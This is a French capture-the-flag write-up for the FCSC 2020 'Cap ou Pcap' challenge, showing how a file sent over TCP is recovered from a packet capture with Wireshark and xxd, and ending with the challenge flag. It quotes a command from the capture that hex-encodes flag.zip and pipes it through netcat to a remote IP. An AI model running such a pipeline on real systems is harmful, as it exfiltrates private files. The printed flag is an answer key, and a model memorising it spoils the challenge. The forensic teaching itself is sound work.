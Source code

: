 # Cap ou Pcap

Bonjoir à tous. On va regarder au challenge Cap ou Pcap du [FCSC 2020](https://www.france-cybersecurity-challenge.fr/)

![intro](assets/intro.png)

Dans ce challenge, on doit trouver le flag dans [ce fichier](ressources/cap.pcap)

## Kessessé ?

Ce fichier est un fichier de capture réseau. On va donc l'ouvrir avec [Wireshark](https://fr.wikipedia.org/wiki/Wireshark)

Regardons ce qu'il contient

![image1](assets/image1.png)

On voit ici des trames [TCP](https://fr.wikipedia.org/wiki/Transmission_Control_Protocol).

En regardant un peu plus bas, on tombe là dessus

![image2](assets/image2.png)

On voit une commande chaînée

```shell
xxd -p Documents/flag.zip | tr -d '\n' | netcat 172.20.20.133 20200
```

[`xxd`](http://www.man-linux-magique.net/man1/xxd.html) est un programme qui permet de convertir un fichier en représentation hexadécimale et inversement. (dixit la doc).

[`tr`](http://linuxcommand.org/lc3_man_pages/tr1.html) est un programme qui permet de convertir ou éliminer des caractères. (toujours dixit la doc).

[`netcat`](https://www.commandlinux.com/man-page/man1/nc.1.html) est un programme qui transmet de la donnée à une machine distante en TCP.

Donc, ce que veut dire cette commande c'est :
- Je convertis le fichier `Documents/flag.zip` en hexadécimal.
- Je dégage les retours à la ligne (`\n`)
- J'envoie le tout à la machine 172.20.20.133 sur le port 20200

On regarde un peu plus loin dans les trames et on trouve ça

![image3](assets/image3.png)

Une trame qui contient pas mal de données. Fort probable que ce soit le fameux `flag.zip`

## Extraction

Du coup, on va extraire ces données comme ceci

![image4](assets/image4.png)

On va sauvegarder ça dans un fichier qu'on va appeler `flag` par exemple.

On va essayer de faire l'opération inverse de ce qu'on a vu dans les trames TCP un peu plus haut

```shell

xxd -r -p flag > flag.zip
```

On a un fichier `flag.zip` qui vient d'être créé.

On regarde ce qu'il contient

![image5](assets/image5.png)

On a bien un fichier `flag.txt`

Si on l'extrait et qu'on affiche son contenu

```shell
root@hostname:~# cat flag.txt
FCSC{6ec28b4e2b0f1bd9eb88257d650f558afec4e23f3449197b4bfc9d61810811e3}
```

HIP HIP HIP ? HOURRA !!!!

![cat](assets/cat.jpg)
